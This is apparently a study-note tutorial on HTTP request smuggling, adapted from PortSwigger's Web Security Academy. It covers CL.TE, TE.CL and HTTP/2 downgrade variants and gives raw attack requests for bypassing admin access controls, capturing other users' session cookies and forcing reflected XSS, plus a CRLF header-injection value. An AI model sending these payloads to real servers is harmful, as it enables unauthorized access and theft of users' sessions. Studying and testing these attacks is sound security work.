



# What is HTTP request smuggling
HTTP request smuggling is a technique for interfering with a way a website processes the HTTP requests that are received from one or more users.

Important note: Request smuggling is **primarily associated with HTTP/1 requests**. However, websites that support HTTP/2 may be vulnerable, depending on their back-end architecture.

Nowadays web applications use different chains of HTTP servers between the consumer (user) of the application and the real server that contains the application.
This is because nowadays there are a lot of load balancers/reverse proxys/front end servers in general, that process the requests and forwards these requests to the back-end servers.

When the front-end server forwards HTTP requests to a back-end server, it typically sends several requests over the same back-end network connection, because this is much more efficient and performant. The protocol is very simple; HTTP requests are sent one after another, and the receiving server has to determine where one request ends and the next one begins:


In this situation, it is crucial that the front-end and back-end systems agree about the boundaries between requests. Otherwise, an attacker might be able to send an ambiguous request that gets interpreted differently by the front-end and back-end systems:


Here, the attacker causes part of their front-end request to be interpreted by the back-end server as the start of the next request. It is effectively prepended to the next request, and so can interfere with the way the application processes that request. This is a request smuggling attack, and it can have devastating results.

# How to perform HTTP request smuggling vulnerabilities
Most HTTP request smuggling vulnerabilities arise because the HTTP/1 specification provides **two different ways to specify where a request ends:** the `Content-Length` header and the `Transfer-Encoding` header.
This, as we can already think, can cause a problem if the lengths are different.

The `Content-Length` header is straightforward: it specifies the length of the message body in bytes. For example:
```http
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

The `Transfer-Encoding` header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero. 
For example:
```http
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b <-- This indicates the length of the chunk (b=11)
q=smuggling <-- Length is 11
0
```
This is very strange and I have never seen it, but is another way to specify the length and also, there can be different chunks.

As the HTTP/1 specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The specification attempts to prevent this problem by stating that if both the `Content-Length` and `Transfer-Encoding` headers are present, then the `Content-Length` header should be ignored and `Transfer-Encoding` should be used.
This rule might be sufficient to avoid ambiguity when only a single server is in play, but not when two or more servers are chained together. In this situation, problems can arise for two reasons:
- Some servers do not support the `Transfer-Encoding` header in requests.
- Some servers that do support the `Transfer-Encoding` header can be induced not to process it if the header is obfuscated in some way.

If the front-end and back-end servers behave differently in relation to the (possibly obfuscated) `Transfer-Encoding` header, then they might disagree about the boundaries between successive requests, leading to request smuggling vulnerabilities.

## Note on request smuggling in HTTP/2
Websites that use HTTP/2 end-to-end are inherently immune to request smuggling attacks. As the HTTP/2 specification introduces a single, robust mechanism for specifying the length of a request, there is no way for an attacker to introduce the required ambiguity.

However, many websites have an HTTP/2-speaking front-end server, but deploy this in front of back-end infrastructure that only supports HTTP/1. This means that the front-end effectively has to translate the requests it receives into HTTP/1. This process is known as HTTP downgrading. For more information, see [Advanced request smuggling](https://portswigger.net/web-security/request-smuggling/advanced).

# How to perform an HTTP request smuggling attack
Classic request smuggling attacks involve placing both the `Content-Length` header and the `Transfer-Encoding` header into a single HTTP/1 request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behavior of the two servers:

- CL.TE: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
- TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
- TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.
### Note on HTTP/1 requests and browsers
HTTP smuggling techniques are only possible using HTTP/1 requests as HTTP/2 makes servers immune to request smuggling.
**Browsers and other clients, including Burp, use HTTP/2 by default to communicate with servers that explicitly advertise support for it during the TLS handshake.**

As a result, **when testing sites with HTTP/2 support, you need to manually switch protocols in Burp Repeater.** You can do this from the **Request attributes** section of the **Inspector** panel.

## CL.TE vulnerabilities
Here, the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. We can perform a simple HTTP request smuggling attack as follows:

```HTTP
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```
The front-end server processes the `Content-Length` header and determines that the request body is 13 bytes long, up to the end of `SMUGGLED`. This request is forwarded on to the back-end server, complete as it reads 13 bytes (all the payload, 0 and SMUGGLED)

The back-end server processes the `Transfer-Encoding` header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be zero length, and so is treated as terminating the request. **The following bytes, `SMUGGLED`, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.**

## TE.CL vulnerabilities
Here, the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. We can perform a simple HTTP request smuggling attack as follows:

`POST / HTTP/1.1 Host: vulnerable-website.com Content-Length: 3 Transfer-Encoding: chunked 8 SMUGGLED 0`

With this vulnerability we have to be very cautious with the TE size, and the spacing (`/r/n`) of all the lines. Here is a demo of a payload working:


# Finding HTTP request smuggling vulnerabilities
## Finding CL.TE vulnerabilities using timing techniques
If an application is vulnerable to the CL.TE variant of request smuggling, then sending a request like the following will often cause a time delay:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
Since the front-end server uses the `Content-Length` header, it will forward only part of this request, omitting the `X`. The back-end server uses the `Transfer-Encoding` header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay as the back-end server expects more data and waits a bit for it.

## Finding TE.CL vulnerabilities using timing techniques
If an application is vulnerable to the TE.CL variant of request smuggling, then sending a request like the following will often cause a time delay:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

# Confirming HTTP smuggling vulnerabilities using diferential responses
When a probable request smuggling vulnerability has been detected, you can obtain further evidence for the vulnerability by exploiting it to trigger differences in the contents of the application's responses. This involves sending two requests to the application in quick succession:

- An "attack" request that is designed to interfere with the processing of the next request.
- A "normal" request.
 If the response to the normal request contains the expected interference, then the vulnerability is confirmed.

For example, suppose the normal request looks like this:
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

This request normally receives an HTTP response with status code 200, containing some search results. The attack request that is needed to interfere with this request depends on the variant of request smuggling that is present: CL.TE vs TE.CL. 

## Confirming CL.TE vulnerabilities using differential responses
To confirm a CL.TE vulnerability, you would send an attack request like this:
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:
```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Since this request now contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it.

### Confirming TE.CL vulnerabilities using differential responses
To confirm a TE.CL vulnerability, you would send an attack request like this:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
If the attack is successful, then everything from `GET /404` onwards is treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:
```http
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Since this request now contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it.

# Exploiting HTTP request smuggling vulnerabilities
We will see several ways of exploiting this vulnerability with different results.

## HTTP smuggling to bypass front-end security controls
Sometimes the front-end server can be the one applying the security measures by analyzing the incoming requests. 
For example, suppose an application uses the front-end server to implement [access control](https://portswigger.net/web-security/access-control) restrictions, only forwarding requests if the user is authorized to access the requested URL. The back-end server then honors every request without further checking. In this situation, an HTTP request smuggling vulnerability can be used to bypass the [access controls](https://portswigger.net/web-security/access-control), by smuggling a request to a restricted URL.

Suppose the current user is permitted to access `/home` but not `/admin`. They can bypass this restriction using the following request smuggling attack:
```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```
The front-end server sees two requests here, both for `/home`, and so the requests are forwarded to the back-end server. However, the back-end server sees one request for `/home` and one request for `/admin`. It assumes (as always) that the requests have passed through the front-end controls, and so grants access to the restricted URL.

The snippet of code is an example for a HTTP request smuggling of the type CE.TL, but here is a snippet for a TL.CE:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

## Revealing front-end request rewriting
In so many cases, the front-end processes the requests and adds some headers and information in the request before forwarding it to the back-end server.

For example, the front-end server might:
- terminate the TLS connection and add some headers describing the protocol and ciphers that were used;
- add an `X-Forwarded-For` header containing the user's IP address;
- determine the user's ID based on their session token and add a header identifying the user; or
- add some sensitive information that is of interest for other attacks.

In some situations, if your smuggled requests are missing some headers that are normally added by the front-end server, then the back-end server might not process the requests in the normal way, resulting in smuggled requests failing to have the intended effects.

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:
- Find a POST request that reflects the value of a request parameter into the application's response.
- Shuffle the parameters so that the reflected parameter appears last in the message body.
- Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.

Suppose an application has a login function that reflects the value of the `email` parameter:
```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

The requests will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the `email` parameter. It will then reflect this value back in the response to the second request:
```http
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

### Note when performing this leakage attack
Since the final request is being rewritten, you don't know how long it will end up. The value in the `Content-Length` header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest.

Once you have revealed how the front-end server is rewriting requests, you can apply the necessary rewrites to your smuggled requests, to ensure they are processed in the intended way by the back-end server.

## HTTP smuggling to capture other user's requests (cookie steal)
If the application contains any kind of functionality that allows you to store and later retrieve textual data, you can potentially use this to capture the contents of other users' requests. These may include session tokens or other sensitive data submitted by the user. Suitable functions to use as the vehicle for this attack would be comments, emails, profile descriptions, screen names, and so on.

To perform the attack, you need to smuggle a request that submits data to the storage function, with the parameter containing the data to store positioned last in the request. For example, suppose an application uses the following request to submit a blog post comment, which will be stored and displayed on the blog:
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```
Now consider what would happen if you smuggle an equivalent request with an overly long `Content-Length` header and the `comment` parameter positioned at the end of the request as follows:
```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```
The `Content-Length` header of the smuggled request indicates that the body will be 400 bytes long, but we've only sent 144 bytes. In this case, the back-end server will wait for the remaining 256 bytes before issuing the response, or else issue a timeout if this doesn't arrive quick enough. As a result, when another request is sent to the back-end server down the same connection, the first 256 bytes are effectively appended to the smuggled request as follows:
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
... 
```

As the start of the victim's request is contained in the `comment` parameter, this will be posted as a comment on the blog, enabling you to read it simply by visiting the relevant post.

To capture more of the victim's request, you just need to increase the value of the smuggled request's `Content-Length` header accordingly, but note that this will involve a certain amount of trial and error. If you encounter a timeout, this probably means that the `Content-Length` you've specified is higher than the actual length of the victim's request. In this case, simply reduce the value until the attack works again.

Important to take into account on this "leakage" attacks:
One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string.

## HTTP smuggling to force reflected XSS
This attack is good because it forces a request on a certain site to the victim, forcing them to trigger the XSS. Also, as you can control the headers that will be added into the victim's request, it is possible to trigger XSS on places where normal XSS cannot control, as these headers. 

For example, suppose an application has a reflected XSS vulnerability in the `User-Agent` header. You can exploit this in a request smuggling attack as follows:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```
The next user's request will be appended to the smuggled request, and they will receive the reflected XSS payload in the response.

# HTTP/2 Request Smuggling
In this section, we'll show you how, contrary to popular belief, implementing HTTP/2 has actually made many websites more vulnerable to request smuggling, even if they were previously safe from these kinds of attacks.

HTTP request smuggling occurs because of the possible mismatch of having **two options to specify the length of the content of a request.** HTTP/2 has ony a single way to specify this, which has long been thought to make it inmune to request smuggling.

Although you won't see this in Burp, HTTP/2 messages are sent over the wire as a series of separate "frames". Each frame is preceded by an explicit length field, which tells the server exactly how many bytes to read in. Therefore, the length of the request is the sum of its frame lengths. This indicates that the request is not send complete, but in little chunks.

In theory, this mechanism means there is no opportunity for an attacker to introduce the ambiguity required for request smuggling, as long as the website uses HTTP/2 end to end. In the wild, however, this is often not the case due to the widespread but dangerous practice of HTTP/2 downgrading. HTTP/2 downgrading is the "enemy" of HTTP/2 and what causes HTTP/2 vulnerable.

## What is HTTP/2 downgrading?
HTTP/2 downgrading is a technique that consists on **rewriting HTTP/2 requests using HTTP/1 syntax** to generate an equivalent HTTP/1 request.
Web servers and reverse proxies often do this in order to **offer HTTP/2 comms with the clients, but HTTP/1 comms with the back-end server.**
THAT is the prerequisite to abuse HTTP/2 downgrading: we need a middle server capable of talking BOTH HTTP/2 and HTTP/1 languages.

This is the mapping of the sent chunks over HTTP with the requests on HTTP/1.1


Burp Suite automatically makes the traduction of HTTP/2 to HTTP/1.1 and viceversa. In fact, this is how Burp is able to [display HTTP/2 messages in the message editor using HTTP/1 syntax](https://portswigger.net/burp/documentation/desktop/http2/http2-normalization-in-the-message-editor).

HTTP/2's built-in length mechanism means that, when HTTP downgrading is used, there are potentially **three different ways** to specify the length of the same request, which is the basis of all request smuggling attacks. We, indeed, have another extra option compared to HTTP/1 request smuggling.

## Note on HTTP/2 message representation
As HTTP/2 is a binary protocol, we've used some artistic license to represent HTTP/2 messages in a human-readable format throughout these materials:

- We display each message as a single entity, rather than separate "frames".
- We display the headers using plain text name and value fields.
- We prefix pseudo-header names with a colon to help differentiate them from normal headers.
- 
This closely resembles the way [Burp represents HTTP/2 messages](https://portswigger.net/burp/documentation/desktop/http2) in the Inspector, but note that they don't actually look like this on the wire.

## H2.CL vulnerabilities
HTTP/2 requests don't have to specify their length explicitly in a header. During downgrading, this means front-end servers often add an HTTP/1 `Content-Length` header, deriving its value using [HTTP/2's built-in length mechanism](https://portswigger.net/web-security/request-smuggling/advanced#http-2-message-length). Interestingly, HTTP/2 requests can also include their own `content-length` header. In this case, some front-end servers will simply reuse this value in the resulting HTTP/1 request.

The spec dictates that any `content-length` header in an HTTP/2 request must match the length calculated using the built-in mechanism, but this isn't always validated properly before downgrading. As a result, it may be possible to smuggle requests by injecting a misleading `content-length` header. Although the front-end will use the implicit HTTP/2 length to determine where the request ends, the HTTP/1 back-end has to refer to the `Content-Length` header derived from your injected one, resulting in a desync.

The front-end, in this case of vulnerability, does not **use the `Content-Length` header specified by the user and accepts any content.** Therefore, the smuggling is made by specifying a short value for this header, so the back-end cuts the request in half using this header.

Graphic example:


## H2.TE vulnerabilities
Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any `transfer-encoding: chunked` header you **try to inject should be stripped or the request blocked entirely.** 
But, if the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks. This is a misconfiguration and a person has to enable it, but this can happen. 

This is what happens on a HTTP/2.TE attack:


## Request smuggling via CRLF injection
Even if websites take steps to prevent basic H2.CL or H2.TE attacks, such as validating the `content-length` or stripping any `transfer-encoding` headers, HTTP/2's binary format enables some novel ways to bypass these kinds of front-end measures.

In HTTP/1, you can sometimes exploit discrepancies between how servers handle standalone newline (`\n`) characters to smuggle prohibited headers. If the back-end treats this as a delimiter, but the front-end server does not, some front-end servers will fail to detect the second header at all.

`Foo: bar\nTransfer-Encoding: chunked`

This can be seen as a single header, but other servers can split it, bypassing the `Transfer-Encoding` header block on whose servers that directly block the header but parse it wrong.
This discrepancy doesn't exist with the handling of a full CRLF (`\r\n`) sequence because all HTTP/1 servers agree that this terminates the header. It is only possible with `\n`.

On the other hand, as HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that `\r\n` no longer has any special significance within a header value and, therefore, can be included **inside** the value itself without causing the header to be split. 
This means that `Foo: bar\r\nTransfer-Encoding: chunked` is valid, as the CRLF is not anymore a boundary (the boundary is a predefined offset).
The final server will receive something like this, if it process HTTP/1.1:
```
Foo: bar
Transfer-Encoding: chunked
```